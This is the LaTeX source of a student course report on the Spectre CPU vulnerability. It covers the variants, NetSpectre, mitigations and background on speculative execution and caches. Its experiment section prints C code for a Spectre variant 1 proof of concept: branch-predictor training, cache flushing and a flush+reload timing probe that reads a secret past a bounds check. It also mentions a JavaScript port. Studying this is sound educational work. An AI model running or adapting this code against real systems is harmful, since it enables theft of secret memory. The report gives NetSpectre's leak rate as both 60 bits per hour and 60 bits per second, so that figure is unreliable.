\documentclass[12pt]{article}
\usepackage[toc,page]{appendix}
\usepackage[english]{babel}
\usepackage{natbib}
\usepackage{url}
\usepackage[utf8x]{inputenc}
\usepackage{amsmath}
\usepackage{graphicx}
\graphicspath{{images/}}
\usepackage{parskip}
\usepackage{fancyhdr}
\usepackage{vmargin}


\usepackage{xcolor}
\usepackage{listings}

\definecolor{mGreen}{rgb}{0,0.6,0}
\definecolor{mGray}{rgb}{0.5,0.5,0.5}
\definecolor{mPurple}{rgb}{0.58,0,0.82}
\definecolor{backgroundColour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{CStyle}{
    backgroundcolor=\color{backgroundColour},   
    commentstyle=\color{mGreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{mGray},
    stringstyle=\color{mPurple},
    basicstyle=\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2,
    language=C
}


\setmarginsrb{3 cm}{2.5 cm}{3 cm}{2.5 cm}{1 cm}{1.5 cm}{1 cm}{1.5 cm}

\title{Spectre and More}								% Title
\author{Sanchit Jain\\ Charith \\Rahul\\Suraj\\ Jeevitesh}								% Author
\date{\today}											% Date

\makeatletter
\let\thetitle\@title
\let\theauthor\@author
\let\thedate\@date
\makeatother

\pagestyle{fancy}
\fancyhf{}
% \rhead{\thechapter}
\lhead{\thetitle}
\cfoot{\thepage}


\begin{document}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\begin{titlepage}
	\centering
    \vspace*{0.5 cm}
    
\includegraphics[scale = 0.25]{logo.png}\\[1.0 cm]	% University Logo
    \textsc{\LARGE Indian Institute of Technology Bombay}\\[2.0 cm]	% University Name
	\textsc{\Large CS305/341}\\[0.5 cm]				% Course Code
	\textsc{\large  Computer Architecture}\\[0.5 cm]				% Course Name
	\rule{\linewidth}{0.2 mm} \\[0.4 cm]
	{ \huge \bfseries \thetitle}\\
	\rule{\linewidth}{0.2 mm} \\[1.5 cm]
	
	\begin{minipage}{0.4\textwidth}
		\begin{flushleft} \large
			\emph{Authors:}\\
			\theauthor
			\end{flushleft}
			\end{minipage}~
			\begin{minipage}{0.4\textwidth}
			\begin{flushright} \large
			\emph{Roll Number:} \\
			160050043\\
			160050083\\
			160050072\\
			160050087\\
			160050101\\% Your Student Number
		\end{flushright}
	\end{minipage}\\[2 cm]
	
	{\large \thedate}\\[2 cm]
 
	\vfill
	
\end{titlepage}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\tableofcontents
\pagebreak

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\section{Abstract}
This report is directed towards the basic understanding of one of the two famous vulnerabilities discovered recently which is named \textbf{"Spectre"}(the other is meltdown) from the very basics to substantial detail. The report explains in simple language and concise format, our understanding of the vulnerability developed after reading relevant papers.  The report explains a \textbf{simple C program} that demonstrates the \textbf{basic principles} in a very simple setup. The same principles can be applied in \textbf{javascript} to extract sensitive information such as passwords. Studying of Spectre and its mitigations requires basic understanding of some terms which are covered in Appendix B.

Apart from the experiment the report focuses on the \textbf{background required} followed by its \textbf{different variants}.
% We then mention the \textbf{proof of concept} study done by google. \\

Finally we discuss \textbf{mitigations} with respect to different dimensions of effectiveness, cost and applicability which is the place where we present our critique.
%
%This is a simple report template with the UCT logo. Feel free to use/modify it to suit your needs. Variables that need to be altered have been commented to make modifications easier. For example if you need to change the university logo, look for the comment \texttt{\% University Logo} in this file and then make appropriate modifications in that line.
%
%A Table of Contents and a bibliography have also been implemented. To add entries to your bibliography, simply edit \texttt{biblist.bib} in the root folder and then use the \texttt{\textbackslash cite\{\ldots\}} command in \texttt{main.tex} \cite{bibtex}. The Table of Contents will be updated automatically.
\section{What is Spectre?}
\subsection{General}
    \textbf{Spectre} is a class of attacks that exploit security vulnerabilities in most modern processors. Specifically, the persistent effects (in cache) of \textbf{speculative execution} resulting from a branch mis-prediction are used to read data that is supposed to be \textbf{inaccessible} to the attacker. The assumption that speculative execution can be completely rolled back turns out to be wrong, and spectre attacks read this \textbf{leaked data}. There are several variants to spectre, we describe two of them below.
\subsection{Variant1 - Bounds Check Bypass}
This variant involves training the CPU's branch predictor to mis-predict a \textbf{conditional branch}, causing some instructions that read secret data to be executed. 
\begin{enumerate}
    \item The attacker can steal data from another process by identifying useful instruction sequences and causing them to run (by requesting a service from the victim like for example, a system call) within the victim's context, leaking secret data to the cache which the attacker can then read (via timing analysis). 
    \item The attacker can use its own code to steal data to which it is not privy to.
\end{enumerate}
 A potential target of the second kind of attack are browsers that run sandboxed JavaScript code (which most modern browsers do). A malicious website can potentially read the entire address space of the browser possibly stealing passwords and bank information.

\subsection{Variant2 - Branch Target Injection}
Variant 2 exploits \textit{indirect branches} by training the \textbf{Branch Target Buffer} (BTB), much like variant 1 trains the conditional branch predictor. An indirect branch is a jump instruction in which the target address is not specified directly and is instead fetched from memory (for example - load eax, address; jmp eax)

CPUs use the same BTB across different contexts and privilege levels. The attacker exploits this feature in order to influence the prediction of an indirect branch in the \textit{victim's} context. The attack goes like this - 
 \begin{enumerate}
 \item Attacker finds an exploitable section of code that reads some secret data in victim's binaries (Or creates one in some cases, like in linux cloud VMs).
 \item Attacker trains the indirect branch predictor (from its address space) to send execution to the exploitable code. (This can be complicated, as one needs to know the details of inner workings of CPUs which are often trade secrets.)
 \item Victim executes target code, and before the CPU realizes that its prediction was wrong, secret data is written to the cache.
 \item Attacker infers secret data from cache through timing analysis.
 \end{enumerate}
\subsection{Variant4 - Speculative store bypass}

Variant 4 uses that fact that when a CPU allows a \textbf{load} instruction to execute before an \textbf{older store} instruction executes because it \textit{predicts} that the load instruction is not dependent on the store instruction and allows speculative execution of further instructions using the read value.
The attack make sures the read value leads to \textit{transient} instructions bringing sensitive information to side channels. Finally, it gets the information from these side channels.
%\section{Proof of Concept Study}
\subsection{New variant? - Spectre on Net}
All the above discussed variants need to be run locally to retrieve data. However, a remote attack based on \textit{spectre variant 1} has been found, which has been termed as \textbf{'NetSpectre'} by it's founders. This attack doesn't need the attacker code running on the target machine and hence, can potentially read any arbitary memory on the internet.  
\subsubsection{Technical details}
Like \textit{variant 1}, this attack requires the presence of a \textbf{spectre gadget} in the code of the target, or broadly speaking, in any API or framework that the target uses. In particular, it uses two kinds of Spectre gadgets. A \textbf{\textit{leak gadget}} which changes the microarchitecture state depending on the value of secret data and a \textbf{\textit{transmit gadget}} which conveys the state. Here, it is not the value returned by the transmit gadget, that leaks the state, but it's \textit{response time}.

The attack now goes similar to variant 1, by first training the victim to speculatively execute the \textit{leak gadget}, and then ask for an unauthorized bit, thereby changing the \textbf{micro-architetural state}. The state is then retrieved by the \textit{transmit gadget}. As such, this attack is to be considered as an application of variant 1. 

The attack has be conducted by \textbf{Graz University of Technology}\cite{NETSPECTRE} using an \textbf{AVX-based covert channel} and are able to leak 60 bits from internet per hour. The attack needs to send a higher number of packets to leak data faster, but using large number of packets could make this attack detectable.
\newpage
\section{The Experiment\cite{SeedLabs}}

\subsection{Experiment Setup}

\subsubsection{Setting the context}
\begin{lstlisting}[style=CStyle]
unsigned int buffer_size = 10;
uint8_t buffer[10] = {0,1,2,3,4,5,6,7,8,9};
uint8_t temp = 0;
char* secret = "Some Secret Value";
uint8_t array[256*4096];
\end{lstlisting}
"buffer" is a character array accessible using restrictedAccess().\\
"secret" is to be stolen.\\
"array" is helper(side channel) to steal secret.  

\subsubsection{Restricted Access}
\begin{lstlisting}[style=CStyle]
uint8_t restrictedAccess(size_t x)
{
	if (x < buffer_size) {
		return buffer[x];
	} 
	else {
		return 0;
	}
}
\end{lstlisting}
This is a simple C function which gives access to elements within buffer\_ size and \textbf{restricts access} to locations \textbf{outside buffer\_size} by returning 0. This is the target of our attack. The aim is to extract information outside buffer\_size using this function. 

\subsubsection{Flush side channel}
\begin{lstlisting}[style=CStyle]
void flushSideChannel()
{
	int i;
	// Write to array to bring it to RAM to prevent On-Demand-Allocation
	for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 0;
		// Flush the values of the array from cache
	for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}
\end{lstlisting}
Almost all Operating Systems implement a policy called \textbf{On-Demand-Allocation}. According to this policy the OS allocates memory to a process only if the process accesses it. Elements of array(line 4) are accessed and assigned 0(could be any value) to ensure that memory is allocated to array.\\
Flushing the elements of array is required to ensure that all elements of array are brought to cache by the function spectreAttack during \textbf{speculative execution} (go through section Spectre Attack for better understanding) \\
There is no significance of DELTA. Any other value can be used instead.\\
Only array elements present in different pages are used to ensure that they are present in different pages to overcome effects of prefetching \\

\subsubsection{Spectre Attack(variant 1)}
\begin{lstlisting}[style=CStyle]
void spectreAttack(size_t larger_x)
{
	int i;
	uint8_t s;
	// Train the CPU to take the true branch inside victim().
	for (i = 0; i < 10; i++) {
		_mm_clflush(&buffer_size);
		restrictedAccess(i);
	}
	// Flush buffer_size and array[] from the cache.
	_mm_clflush(&buffer_size);
	flushSideChannel();
	// Ask victim() to return the secret in out-of-order execution.
	s = restrictedAccess(larger_x);
	array[s*4096 + DELTA] += 88;
}
\end{lstlisting}

This function flushes buffer\_size and calls restrictedAccess() with elements within buffer\_size enough number of times. As restrictedAccess() requires buffer\_size to check if the access is valid and buffer\_size was flushed to memory(its not present in cache), it takes a \textbf{lot of time to retrive buffer\_size}. As most processors use branch predictors and as restrictedAccess() is called with valid index many times, the \textbf{branch predictor gets trained} to pridect \textbf{branch not taken} in the `if condition' of restrictedAccess().\\
After this the function calls flushSideChannel() to ensure that all elements are \textbf{brought to cache only during execution of line 15}.\\
Calling spectreAttack with a large value say larger\_x should ideally return 0, but because the buffer\_size is flushed and speculative execution \textbf{predicts branch not taken} the restrictedAccess(larger\_x) returns buffer[larger\_x] and if the statement in line 15 gets executed, $array[s*4096+DELTA]$ is brought to cache.\\
Immediately after buffer\_size has arrived from memory the proccessor realizes that the speculative execution was wrong(by execution of if statement in restrictedAccess()) and reverts back everything that happened till this point.
But this does not flush the element $array[s*4096+DELTA]$ from cache. 
The current state is all the elements except $array[s*4096+DELTA]$ are present in main memory but $array[s*4096+DELTA]$ is present in the cache.   
 
   
\subsubsection{Reload Side Channel}
\begin{lstlisting}[style=CStyle]
static int scores[256];
void reloadSideChannel()
{
	int i;
	volatile uint8_t* addr;
	register uint64_t time1, time2;
	int junk = 0;
	for (i = 0; i < 256; i++) {
		addr = &array[i*4096 + DELTA];
		time1 = __rdtscp(&junk);
		junk = *addr;
		time2 = __rdtscp(&junk) - time1;
		if (time2 <= CACHE_HIT_THRESHOLD)
		scores[i]++; 
	}
}
\end{lstlisting}

This function brings all 256 elements to cache and measures the time taken for each element in doing so. As elements present in the cache take significantly less time compared to elements not present in cache. Since only elements of array accessed would be the result of speculative execution, the data present at buffer[larger\_x] can be determined.
This function uses $\_\_rdtscp (\&junk)$ gives current time of CPU in some CPU uints.
Line 10,11,12 finds the time taken to access addr which is $array[i*4096+DELTA]$ and
$scores[i]$ stores the number of times $i^{th}$ element was brought to cache.
CACHE\_HIT\_THRESHOLD is used to differentiate between elements already present in cache and those coming from main memory.

  \newpage
\subsection{Our Result}

\subsubsection{C-Program}
We executed \textbf{spectreAttack()} immediately followed by \textbf{reloadSideChannel()} 1000 number of times and then found the element of array which was present in cache for the most number of times. The result is as follows.

\vspace*{0.0 cm}
	{\centering
    \vspace*{0.0 cm}

\includegraphics[scale = 0.45]{spectre.png}\\[1.0 cm]}
\subsubsection{JS-code\cite{GITHUB_LINK}}
Demeonstrating the same in a browser using JavaScript.

\vspace*{0.0 cm}
	{\centering
    \vspace*{0.5 cm}

\includegraphics[scale = 0.6]{spectre_javascript.png}\\[1.0 cm]}


\newpage
\section{Mitigations\cite{Kocher2018spectre}}
Several solutions for Spectre attacks have been proposed. They rely on the basic architecture that Spectre exploits and try to catch hold of that at these \textbf{checkpoints}. Studying Mitigations is another very different perspective of understanding this attack. We discuss the extent of these mitigations on various dimensions such as \textbf{applicability}, \textbf{effectiveness} and \textbf{cost}.
\subsection{Preventing Speculative Execution}
A very simple approach to this is to prevent \textbf{speculative execution altogether}. Spectre relies heavily on speculative execution as seen in section 2.2 . Ensuring that an instruction is \textbf{executed only when control flow reaches}\ that instruction \textbf{eliminates Spectre}. Hence it is very effective in this sense.\\

 Note that we don't get this security for free. We have \textbf{traded speed for security} here. While effective as a countermeasure, preventing speculative execution would cause a \textbf{significant degradation} in the \textbf{performance} of the processor. This \textbf{limits its applicability}. \\

Current processors do \textbf{not} have software which can \textbf{issue commands} to disable speculative execution but they may like to include that in near future given the fact that the discovery of this vulnerability is quite recent. Alternatively, some hardware products (such as embedded systems) could switch to alternate processor models that do not implement speculative execution. \\

Software techniques, like using an \textbf{empty loop} of say, 100 instructions such that speculative execution doesn't cross these many instructions before it figures out the wrong prediction.
Alternatively, the software could be modified to use serializing or speculation blocking instructions that ensures that instructions following them are not executed speculatively. Intel and AMD recommend the use of the \textbf{\textit{lfence}} instruction.\\

The below are some \textbf{temporary alternatives} to a very costly problem of updating the \textbf{software binaries} of legacy softwares.
\subsection{Preventing Access to Secret Data}
We can have a \textbf{separate process} which does the restricted tasks. Because Spectre attacks only \textbf{leverage} the \textbf{victim’s permissions} to access the data hence by isolating them using the process abstraction is a very elegant way to prevent access to secret data. \textbf{Google Chrome} opens \textbf{each website} as a \textbf{seperate process} for the same reason. This is arguably an \textbf{efficient} and \textbf{cost effective} way of defeating Spectre which is applied in lots of real world applications.
\subsubsection{More Info}
Two methods are employed for such preventions.
\begin{itemize}
	\item \textbf{Replaces array bounds checking with index masking	:} Instead of checking wether an array index is within bounds, we apply a bit mask to the index, ensuring that it is not much bigger than the array size. While masking may result in access outside the bounds of the array, this limits the distance of the bounds violation, preventing the attacker from accessing arbitrary memory. Hence secret data is effectively protected from the attacker.
	\item \textbf{protects access to pointers by xoring them with a pseudo-random poison values	:} Here if the poison value is not known to the attacker the pointer is of no use to him/her.More significantly, the poison value ensures that mispredictions on the branch instructions used for type checks will result in pointers associated with one type being used for another type.
\end{itemize}
\subsection{Preventing Data from Entering Covert Channels}
Future processors could potentially \textbf{track} whether the data was being
fetched as the result of a \textbf{speculative} operation and, if so,
\textbf{prevent that data from being} used in subsequent operations
that might leak it. Current processors do not generally have
this capability, however.
\subsection{Limiting Data Extraction from Covert Channels}
Since spectre gets information from covert channels, one way of mitigating would be to limit control over these channels and thereby \textit{limiting the data extraction}. Multiple approaches have been suggested to this end, one of which is to disable the resolution of \textbf{javascript timer, shared array buffers} ( which are critical in javascript based spectre attack) in modern browsers. ( We see that our malicious spectre javascript code runs on \textbf{chrome} but not on \textbf{firefox} as it disables these functionalities).

As to it's effectiveness, these mitigations does seem to decrease the attacker's performance but doesn't nullify them.
\subsection{Preventing Branch Poisoning}
There are three mechanisms involved in this mitigation as proposed by Intel\cite{Intel_mitigation}:- 
\begin{itemize}
	\item \textbf{Indirect Branch Restricted Speculation (IBRS) : } prevents indirect branches in \textbf{privileged code} from being affected by branches in less privileged code. The processor enters a special IBRS mode, which is \textbf{not influenced} by any computations outside of IBRS modes.
	\item \textbf{Single Thread Indirect Branch Prediction (STIBP) : } restricts branch prediction sharing between software executing on the \textbf{hyperthreads} of the \textbf{same core}.
	\item \textbf{Indirect Branch Predictor Barrier (IBPB) : } prevents software running before setting the barrier from affecting branch prediction by software running after the barrier, i.e., by \textbf{flushing the BTB(Branch Target Buffer)} state.
\end{itemize}
These controls are enabled following a microcode patch and require operating system or BIOS support for use. \textbf{The performance impact} varies from \textbf{a few percent} to a factor of \textbf{4} or more, depending on which countermeasures are employed, how comprehensively they are applied (e.g. limited use in the kernel vs. full protection for all processes), and the efficiency of the hardware and microcode implementations.
%\section{Current Work Going On}
\newpage
\section{Conclusions}
This report provides an overview of \textbf{Spectre}, the features of processors that have given rise to it, and explores a program that shows that protected data can indeed be stolen. In the process of writing it, we learned about how direct and indirect branch prediction works, how speculative execution leaks data to cache, how this leaked data can be read by the attacker by \textbf{flush+reload} and \textbf{evict+reload}.

Even though \textbf{no real attack} exploiting Spectre has been made till date, there are compelling proofs of concept that show that modern processors have fundamental design flaws that can result in extremely sensitive data (such as encryption keys) being stolen. The risk is even greater in \textbf{cloud systems} where the isolation is broken by \textit{variant 2}. 

Intel is currently redesigning its processors to mitigate Spectre vulnerabilities. Several software patches have been released to block specific attacks, and some browsers have applied patches (the javascript attack used in this report does not work on the latest version of chrome/Firefox).

We see now how Spectre is less of a \textbf{'bug'} and more of a \textbf{discovery} about how modern processors leak data and how these leaks can be exploited, contrary to \textbf{previous belief} of \textbf{security through isolation}.

\section{Individual Contributions}
We took each others help in almost each of the topics but here is a brief high level classification for completeness.
\begin{itemize}
	\item \textbf{Sanchit Jain : }  Mitigations 4.1,4.2,4.3,4.5 ,Appendix C,D
	\item \textbf{Charith : } The Experiment 3.1 3.2 
	\item \textbf{Rahul : } 2.5,4.4, Appendix A,B
	\item \textbf{Suraj : } What is Spectre 2.2,2.3
	\item \textbf{Jeevitesh : } 2.4, A.4,A.5 Appendix E
\end{itemize}
We all read different parts of the main paper and some other side notes and urls corressponding to the sections mentioned above. 
\section{Next Steps}
Here are some of our \textbf{failures} which we are currently working on and will continue to work on the same till the deadline and since this has developed keep interest amongst us we may continue even after that. Some of them are mentioned below
\begin{itemize}
	\item We are unable to improve on the javascript\cite{GITHUB_LINK} experiment of Spectre attack on the browser and make it consistent.
	\item We were unable to experimentally demonstrate \textit{\textbf{variant 2}} of spectre. We are not able to \textbf{bypass the} isolation security between processes set up by the \textbf{OS}. We plan to look into this with rigour. We will look into the Google's project zero for the same.\cite{ProjectZero}
\end{itemize}
\section{Salient Points}
We have actually highlighted the important points throughout the report to help the reader but for completeness the salient features are as follows:
\begin{itemize}
		\item \textbf{The experiment} clearly demonstrates in a very \textbf{modular fashion} the exact control flow and implementation of how a Spectre attack \textit{variant 1} can be carried out.
		
		\item The attack is based on the very \textbf{fundamental aspects/mechanism} of modern day processors.
		
		\item \textit{Variant2} looks more \textbf{severe} as it can effect even a properly written victim code.
		 
		\item The suggested mitigations will lead to decrease in performance resulting in a \textbf{tradeoff} between security and performance which is clearly documented in the corresponding section
		\item In general Spectre is \textbf{difficult to exploit} which is evident from the fact that there has been \textbf{no} instance of such an \textbf{attack till date}.
		\item In the paper\cite{Kocher2018spectre} they have been very \textbf{transparent} in pointing out the flaws in the mitigations that has been provided.

\end{itemize}
\section{Negative Aspects}
\begin{itemize}
%	\item Spectre is very difficult to exploit.(Actually positive to modern day processor)
	\item Google's Project Zero\cite{ProjectZero} have worked very hard in presenting the \textbf{POC's} but it is actually very \textbf{hard} to use it \textbf{ in real life large scale effect}.
	\item \textbf{NetSpectre}\cite{NETSPECTRE} Retrieves bit at very \textbf{slow} rate (60 bits/seconds) and any \textbf{attempt} to \textbf{improve} this data leak rate will make this attack \textbf{detectable}.
	\item \textbf{\textit{Variant2}} is \textbf{difficult to implement} in the given time constraint for this project because it needs more knowledge on \textbf{ROP} and \textbf{Buffer Overflow Attacks}.
\end{itemize}
\section{Fresh Idea}
\begin{itemize}
	\item There are \textbf{browsers} which open new \textbf{tabs in same process} (different threads). Such browsers can be \textbf{exploited} using Spectre \textit{Variant1} to extract sensitive information.
\end{itemize}
\section{Acknowledgement}
We would like to express our gratitude towards our \textbf{Prof Bernard Menezes} who has taught us a lot of stuff throughout the semester. He gave us the opportunity to do this delightful and enriching project and provided motivation for the same in each and every lecture.\\

We would also like to thank our \textbf{able TA's} who have not only clear our frequent doubts but also have managed the course in a very systematic and fair manner.\\

It was a great experience working as a team and reading various papers . This project has not only showed us the horizons of research but also exposed us to one of the most famous vulnerability of all times.
  
\newpage
\bibliographystyle{plain}
\bibliography{biblist}
\newpage
\begin{appendices}	
	\section{Baby Steps/Background}
	Let's look into the underlying facts and techniques that spectre is based upon.
	\subsection{Out of order Execution}
	
	\textbf{Out of order execution} is a paradigm in which instructions are executed not in the order of how they appear but the order depends on the \textbf{availiability of input data and execution units} to the processor for their execution. This is a commonly used approach in high performing processors. Clearly, this approach efficiently uses the instruction cycles and reduces the cost delay of executing a program.  
	
	\subsubsection{More details}
	The earlier processors( \textbf{in-order execution} ) differ from an \textbf{OoOE ( out of order execution)} processor in processing an instruction as follows. An inorder processor fetches the instruction, waits for it's inputs and availiability of execution units and then executes the instruction. It finally writes the result of instruction into the appropriate register in the register file. 
	
	In contrast, OoOE processors breaks up the processing of instructions into these steps:
	\begin{enumerate}
		\item Fetch the instruction.
		\item Dispatch it to an instruction queue.
		\item Executes the instructions in the queue based on the availiability of data and execution units.
		\item The results are queued and are written to the register file in the order of appearance.
	\end{enumerate}
	
	Note that the execution of instructions in step 3 doesn't follow the program order of instruction. 
	This results in utilising, otherwise stalled clock cycles. The processor finally rearranges the result in the order of appearance to make it appear that it processed them in order. 
	
	Further, modern processor uses some decoupling techinques such as renaming of registers and a certain \textbf{VLIW} architechture to effectively use this paradigm.
	
	The take away point is that modern processors are mostly OoOE and they execute instructions out of order for efficiency. 
	
	\subsection{Speculation Execution}
	
	When a processor encounters a branch instruction whose branching condition is not yet evaluated ( generally, because this instruction is being executed out of order), the \textbf{speculative execution paradigm} allows the processor to make a guess and take the branch and starts executing. \\
	The cpu has to store it's register state before it speculatively executes. In case it comes to know that the branch it started evaluating isn't the right one, it reverts back to the saved state. With a good branch prediction algorithm, clearly, this paradigm greatly improves the execution time of a program with many branch instructions. 
	
	Let us see some of the mechanisms for prediction employed in modern-day processors.  
	
	\subsection{Branch Prediction}
	In general, processors predict the following for preventing stalls 
	\begin{enumerate}
		\item The target address of \textit{ direct calls and jumps }.  
		\item The target address of \textit{ indirect calls and jumps }.
		\item The target address of \textit{ conditional branches }.
	\end{enumerate}
	Processors also contain a component called \textbf{Branch Target Buffer (BTB) } which keeps a mapping from addresses of recently executed branch instructions to destination addresses. The processors refer to the BTB during the \textbf{I-state} of the \textbf{instruction pipeline cycle} ( where the instructions are decoded) and predict the target address even before the instruction is executed.
	
	For conditional branching, as the target address is already encoded in the instruction, such mapping is not needed. Instead, the branch outcome history is used for predicting. Processors also uses the branch outcome history for predicting direct and indirect branches also. 
	
	It is to be noted that the above used branch-prediction logic is typically not shared across physical cores. Hence, the processor learns only from previous branches executed on the same core. This is useful information for an attacker.
	\subsection{The Memory Hierarchy}
	In general, the memory of the CPU is divided into three caches and an external memory and is \textbf{hierarchial}. This is to allow faster access time to the data essential to the process running on the CPU. The chain of access is passed from \textbf{L1} cache to \textbf{L2} cache, from \textbf{L2} to \textbf{L3} cache and then to external memory based on whether we recieve a hit on the presence of the required data among the caches. The L1 cache has the fastest  access time and this slows down as we move down this hierarchy. It is to noted that while each core has it's own L1 and L2 caches the L3 is common for the cores.
	
%	The coherence of the L1 and L2 caches across the multiple cores is maintained by the cache coherence protocol that usually is dependant on \textbf{MESI(Modified-Exclusive-Shared-Invalid) Protocol}.
	
	Several properties of the cache coherency protocol such as \textbf{\textit{cache-line bouncing}}, \textbf{\textit{false sharing}} can sometimes be abused as a replacement for cache eviction using the \textbf{clflush instruction} or eviction patterns.
	\subsection{Microarchitectural Side-Channel Attacks/Flush-Reload Techniques}
	Several microarchitectural components such as \textbf{\textit{caches, BTB}},.. improve the processor performance by predicting future program behavior. They achieve this by maintaining a state that depends on past program behavior and assume that future behavior is similar to or related to past behavior. 
	
	When several programs are being executed on the same hardware, the changes in the microarchitectural state that is due to a single program could potentially affect other programs. \textbf{Microarchitectural Side-Channel Attacks(MSCAs)} are attacks which use this fact and get restricted data of a victim process.
	
	The targets of attacks include \textit{extracting keys from cryptographic primitives}, \textit{co-location detection}, breaking \textit{ASLR}, \textit{keystroke monitoring}, \textit{website fingerprinting}, and \textit{genome processing}..
	
	Briefly speaking, inorder to perform these attacks, the atackers primarily use the \textbf{"Flush+Reload"}
	technique and also \textbf{"Evict+Reload"}, a variant, on microarchitectural components such as instruction cache, lower level caches, the BTB, branch history, etc. 
	
	In the \textbf{"Flush+Reload"} technique , the attack begins by flushing a cache line (in Intel via \textit{clflush} instruction) that is shared with the victim. When the victim runs it's programs for a while, the attacker keeps measuring the time it takes to do a memory read at the address corresponding line, the access will be fast if the victim access it, else the access will be slow. Therefore by performing these accesses and calculating the access times the attacker can find if the victim accessed the evicted line between these two acts.
	
	In the \textbf{"Evict+Reload"} technique, the attacker does the same but instead of flush, the required cache line is evicted by accessing other memory locations. When sufficiently large accesses are made, the required line is evicted as there is only a finite space in the caches.
	
	\subsection{Return Oriented Programming}
	\textbf{Return-Oriented Programming (ROP)} is a technique by which an attacker who has the control of execution, in particular, the stack pointer can make the victim perform arbitary complex operations by chaining together machine code snippets, called \textbf{gadgets}, found in the code of the vulnerable victim.
	
	Less formally, assume that an attacker has control of the stack pointer of the victim and that the  victim's code contains many code snippets( we refer them as \textbf{gadgets}) which does some small useful work for the attacker. Now, the attacker can first find those gadgets and chain them, making the victim excute one gadget after another by changing the contents of the stack pointer( which has the arguments for the executing snippet on cpu and it's return address). Finally, we note that the attacker can get access of the stack pointer through a  \textbf{buffer overflow} attack.
	
	\section{: Terminology}
	\begin{itemize}
		\item \textbf{VLIW architechture : } Architecture which allows programs to explicitly specify instructions to execute in parallel. 
		\item \textbf{Instruction pipeline cycle : }  A technique in which instruction execution is divided into stages\textit{( I , E , M , W , ..)} for implementing instruction-level parallelism within a single processor. 
		\item \textbf{transient instructions : } Instructions which shouldn't be executed through program logic, but are being speculatively executed. The cpu state after their execution is reverted eventually.  
		\item \textbf{Direct calls and jumps : } Branch instructions whose target address is encoded within the instruction itself.
		\item \textbf{Indirect calls and jumps : } Branch instructions whose target address is stored in a register specified in the instruction. Thus, their target address are computed at runtime.
		\item \textbf{Conditional Branching : } Branch instructions whose target address depends upon the "condition variable" of the instruction.
		\item \textbf{Buffer overflow : }  An attack where a buffer is overflown and malicious code is injected into the required memory locations.
		\item \textbf{cache line bouncing : } When parallel processors access the same cache line, the ownership / valid bit for the cache line is transfered / bounces from one processor to another.
		\item \textbf{false sharing : }	 A degrading usage pattern where two processors alter different data elements in the same cache line. Logically they aren't sharing any data, but because of granularity of cache line, the ownership of the cache line keeps shuffling.
	\end{itemize}
	\section{: Meltdown. Lets melt its cocoon}
	% the \\ insures the section title is centered below the phrase: AppendixA
	
	\textbf{PersonX}: Do you have a Sibling?\\
	
	\textbf{Spectre}: Ahh yes I have one named Meltdown\\
	
	\textbf{PersonX}: Can you tell us something about it?\\
	
	\textbf{Spectre}: Like every pair of Siblings we are from same Parents. The basic ideologies and mechanism through which we arise are the same. We both are based on Speculative Execution/Branch Prediction. But yet we are not the same. It is different from me in the following sense. Meltdown is more easy to implement but also less general. It affects only Intel processors. It also reads the effects of speculative execution through the cache, but the speculative execution in this case is done while the CPU waits for a privilege check. 
	That's right, Meltdown accesses the kernel memory (which is obviously secret to the process) by tricking the cpu into speculatively executing instructions that are supposed to be executed \textit{after} the privelege check \textit{before} the check is completed. Then its technique of obtaining the data from cache is similar to the ones I use. 
	
	\section{:  Onomastics of Spectre and Meltdown \cite{NameOrigin}}
	% the \\ insures the section title is centered below the phrase: Appendix B
	\textbf{PersonX}: What was the reason that your parents chose these names for you?
	
	\textbf{Spectre}: Well I don't know. You should go and ask my parents I suppose. From what they have told me or what many believe is the following reason. For me it is because since my internals are based on \textbf{'Speculative Execution'}  so they wanted something similar sounding.\\ When I was born/discovered they knew I am very dangerous to a department called cyber security hence one of my parents \textbf{Paul Kocher} named me "Spectre" which really means a \textbf{ghost}. I not only was supposed to \textbf{haunt the cyber security proffessionals} but also was largely \textbf{invisible} to the ordinary program execution.
	
	\textbf{PersonX}: What about the naming of "Meltdown"?
	
	\textbf{Spectre}: The idea behind the name "Meltdown" actually makes me really jealous. It is believed to be coined by one of my parents, \textbf{Daniel Gruss} . As it \textbf{melts the boundary} \textbf{between programs} and \textbf{OS}, it is aptly christened "Meltdown". The name also makes it sounds really devastating, with a huge impact, like an actual \textbf{meltdown in a nuclear reactor}.\\
	Moreover, in \textbf{German}, meltdown is \textbf{'Kernschmelze'}, which means \textbf{'melting of the core'}. Since we call the CPU as a core and indeed a 'CPU Kern' so it is also a wordplay, implying that the CPU is not in a good condition."

